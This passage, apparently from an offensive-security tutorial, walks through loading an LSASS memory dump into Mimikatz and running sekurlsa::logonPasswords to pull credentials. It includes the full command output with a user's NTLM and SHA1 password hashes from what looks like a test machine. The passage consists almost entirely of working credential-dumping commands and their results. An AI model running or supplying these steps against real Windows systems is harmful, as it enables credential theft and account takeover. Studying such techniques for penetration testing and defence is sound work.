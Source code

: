 The below `sekurlsa::minidump` command will load the lsass.DMP into Mimikatz.

```
mimikatz # sekurlsa::minidump C:\Users\%USERNAME%\Documents\lsass.DMP

Switch to MINIDUMP : 'C:\Users\tokyoneon\Documents\lsass.DMP'
```

Use the `sekurlsa::logonPasswords` command to extract hashed credentials. Since Windows 8, plaintext passwords are no longer stored in memory without further modifying the operating system. On line 12, find the hashed password in NTLM format.

```
mimikatz # sekurlsa::logonPasswords

Opening : 'C:\Users\tokyoneon\Documents\lsass.DMP' file for minidump...

     1  Authentication Id : 0 ; 102597 (00000000:000190c5)
     2  Session           : Interactive from 1
     3  User Name         : tokyoneon
     4  Domain            : MSEDGEWIN10
     5  Logon Server      : MSEDGEWIN10
     6  Logon Time        : 5/31/2019 1:01:05 AM
     7  SID               : S-1-5-21-3859058339-3768143778-240673529-1000
     8          msv :
     9           [00000003] Primary
    10           * Username : tokyoneon
    11           * Domain   : MSEDGEWIN10
    12           * NTLM     : 7b5e40a5b7b17972ad793b9fc868a66e
    13           * SHA1     : 6076b8f4d982b55097f910b3fb5a81c801954406
    14          tspkg :
    15          wdigest :
    16           * Username : tokyoneon
    17           * Domain   : MSEDGEWIN10
    18           * Password : (null)
    19          kerberos :
    20           * Username : tokyoneon
    21           * Domain   : MSEDGEWIN10
    22           * Password : (null)
    23          ssp :
    24          credman :

    25  Authentication Id : 0 ; 102306 (00000000:00018fa2)
    26  Session           : Interactive from 1
    27  User Name         : tokyoneon
    28  Domain            : MSEDGEWIN10
    29  Logon Server      : MSEDGEWIN10
    30  Logon Time        : 5/31/2019 1:01:05 AM
    31  SID               : S-1-5-21-3859058339-3768143778-240673529-1000
    32          msv :
    33           [00000003] Primary
    34           * Username : tokyoneon
    35           * Domain   : MSEDGEWIN10
    36           * NTLM     : 7b5e40a5b7b17972ad793b9fc868a66e
    37           * SHA1     : 6076b8f4d982b55097f910b3fb5a81c801954406
    38          tspkg :
    39          wdigest :
    40           * Username : tokyoneon
    41           * Domain   : MSEDGEWIN10
    42           * Password : (null)
    43          kerberos :
    44           * Username : tokyoneon
    45           * Domain   : MSEDGEWIN10
    46           * Password : (null)
    47          ssp :
```